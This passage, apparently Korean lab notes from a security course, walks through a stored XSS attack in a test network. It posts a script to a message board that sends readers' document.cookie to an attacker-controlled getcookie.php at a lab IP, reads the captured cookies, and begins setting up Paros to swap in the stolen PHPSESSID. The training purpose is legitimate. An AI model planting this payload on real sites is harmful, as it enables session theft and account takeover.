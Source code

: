     ![화면 캡처 2022-10-27 194250](../../assets/img/화면 캡처 2022-10-27 194250.png)

  - php 실행 가능한지 확인

    ```
    └─# php -v
    ```

    ![화면 캡처 2022-10-27 194557](../../assets/img/화면 캡처 2022-10-27 194557.png)

- 게시판에 글을 작성 (1줄로 작성)

  - xp] daum.net 로고 이미지 링크 복사

    ![화면 캡처 2022-10-27 195653](../../assets/img/화면 캡처 2022-10-27 195653.png)

    ```
    https://t1.daumcdn.net/daumtop_chanel/op/20200723055344399.png
    ```

  - 이미지 링크를 게시판에 올리기

    ```
    <img name="i" width="100" height="100"></img>
    <script>i.src="https://t1.daumcdn.net/daumtop_chanel/op/20200723055344399.png"</script>
    ```

    ![화면 캡처 2022-10-27 200210](../../assets/img/화면 캡처 2022-10-27 200210.png)

- 게시판에 공격할 글을 작성 

  ```
  <img name="i" width="0" height="0"></img><script>i.src="http://172.16.0.201:80/getcookie.php?cookie="+document.cookie</script>
  ```

  ![화면 캡처 2022-10-27 203749](../../assets/img/화면 캡처 2022-10-27 203749.png)

- 2003] test01로 로그인후 글을 읽는다

  ![화면 캡처 2022-10-27 201430](../../assets/img/화면 캡처 2022-10-27 201430.png)

- kail]  확인

  ```
  # cat /tmp/cookie.dat
  ```

  ![화면 캡처 2022-10-27 203918](../../assets/img/화면 캡처 2022-10-27 203918.png)

- xp] paros 를 이용하여 PHPSSESID 를 변조

  - paros 설정

    ![화면 캡처 2022-10-27 204320](../../assets/img/화면 캡처 2022-10-27 204320.png)
